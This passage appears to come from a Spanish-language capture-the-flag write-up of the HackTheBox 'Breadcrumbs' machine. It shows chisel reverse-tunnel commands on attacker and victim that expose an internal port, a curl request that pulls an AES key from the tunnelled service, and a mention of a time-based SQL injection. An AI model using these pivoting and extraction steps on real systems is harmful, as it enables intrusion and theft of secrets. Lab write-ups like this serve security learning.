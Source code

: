 ```bash
#Nos ponemos en escucha por el puerto 1111
❭ ./chisel server -p 1111 --reverse
2021/03/13 25:25:25 server: Reverse tunnelling enabled
2021/03/13 25:25:25 server: Fingerprint 1kWWQwYT0YxKjY9xsxSSL76G0IJLlLThmvRQ+t/ZdoE=
2021/03/13 25:25:25 server: Listening on http://0.0.0.0:1111
```

**Victima (cliente):**

```powershell
PS C:\Users\development\Videos> .\chisel.exe client 10.10.14.194:1111 R:1234:localhost:1234
2021/03/12 25:25:25 client: Connecting to ws://10.10.14.194:1111
2021/03/12 25:25:25 client: Connected (Latency 117.0553ms)
...
```

* Le indicamos el puerto e IP en el que estamos escuchando: `10.10.14.194:1111`.
* Cuando obtengamos la conexión, el puerto `1111` pasara a ser el puerto `1234` que se esta sirviendo localmente `localhost:1234`.

**Atacante (server):**

```bash
...
2021/03/13 25:25:25 server: session#1: tun: proxy#R:1234=>localhost:1234: Listening
```

Listo, validemos:

```bash
❭ curl "http://localhost:1234/index.php?method=select&username=administrator&table=passwords"
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}
```

En la web:

![316page1234_remPortFort_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316page1234_remPortFort_done.png)

...

Despues de algo de pruebas sobre la URL, logramos obtener nuestro `SQLi` (es uno basado en tiempo), el parámetro vulnerable es `username`, con este simple payload logramos darle a la página un tiempo de respuesta de `5` segundos, si refrescamos y la página se demora ese tiempo, quiere decir que tenemos inyección (:
